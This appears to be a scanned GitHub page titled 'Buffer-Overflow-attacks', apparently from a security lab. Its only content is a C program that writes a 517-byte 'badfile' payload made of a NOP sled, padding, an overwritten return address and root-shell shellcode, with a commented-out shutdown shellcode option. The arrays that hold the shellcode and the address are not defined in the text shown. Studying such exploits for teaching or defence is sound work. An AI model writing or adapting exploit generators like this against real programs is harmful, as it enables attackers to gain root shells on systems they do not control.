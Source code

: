 # Buffer-Overflow-attacks

int main(){
	FILE* badf;
	badf = fopen("badfile","w");
	char buff[517];
	for(int i=0;i<517;i++)
		buff[i] = nop[0];
	int ind = 0;	
	for(;ind<24;){
		buff[ind++] = 'd';
	}
	for(int i=0;i<strlen(ret_addr);i++){
		buff[ind++] = ret_addr[i];
	}
	ind += 64;
	//for(int i=0;i<strlen(shutdown_shellcode);i++){
	//	buff[ind++] = shutdown_shellcode[i];
	//}
	for(int i=0;i<strlen(root_shell);i++){
		buff[ind++] = root_shell[i];
	}
	buff[ind] = '\0';
	fwrite(buff,517,1,badf);
	return 0;
}
